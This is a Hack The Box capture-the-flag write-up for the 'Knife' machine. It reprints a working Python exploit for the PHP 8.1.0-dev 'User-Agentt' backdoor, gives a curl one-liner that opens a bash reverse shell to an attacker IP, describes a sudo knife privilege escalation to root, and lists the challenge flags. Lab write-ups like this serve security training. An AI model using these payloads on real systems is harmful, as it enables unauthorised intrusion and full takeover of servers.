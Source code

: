 # Knife

> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6b047d79-69bf-4a4d-aec3-f51ced0790a9)


> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.242 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 23:19 PDT
Nmap scan report for 10.10.10.242
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.65 seconds
```

1. Found 2 ports open, and the machine is running a web application with PHP version 8.1.0.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6970c5b2-6643-4afc-ae61-ce75826b97ca)


2. Turns out the PHP version is vulnerable to Backdoor RCE.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fe82c05d-6479-4eae-90d8-c06224a807d2)


3. Based from this exploit.db documentation --> `https://www.exploit-db.com/exploits/49933`, we can add **User-Agentt** at the request header to gain RCE.
4. Let's use the script provided there.

> SCRIPT FROM DOCUMENTATION

```py
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

#### NOTES:

```
Another simple way, you can use this:

Set up a python server, then run set a listener on port 1337, run this afterwards:

curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i
&>/dev/tcp/10.10.14.25/1337 0>&1 '\");"
```

> RESULT

```
┌──(brandy㉿bread-yolk)-[~/machine_knife]
└─$ python3 backdoor_rce.py
Enter the full host url:
http://10.10.10.242 

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ whoami
james

$
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f43c6df3-d20d-4f6a-826b-9d87364c4215)


## USER FLAG

```
b18383f88c92034b8db5157c1c8c28fb
```

5. To get the root flag, let's run `sudo -l` to see the sudo permissions for james.

```
$ sudo -l 
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

$ 
```

6. We can run a tool named knife as root, we can use this for privesc.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/75cbb401-833d-4af7-9666-a1f1ea903f24)


7. But to get privesc, we need to do reverse shell first.

> Example of we can't use knife.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/10a0cdc8-9572-43fc-9eb9-55e57162dc92)


> Getting reverse shell

![pentest-knnife](https://github.com/jon-brandy/hackthebox/assets/70703371/fdc1a609-bed9-40cd-8237-3cefd45d0479)


> Privesc moment

```
Command:

sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
```

> RESULT

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.242] 50652
bash: cannot set terminal process group (947): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6ad88a19-39c0-452c-acfe-8a9cfc43d086)


## ROOT FLAG

```
5c78862fec523cd01ebd58711da58323
```
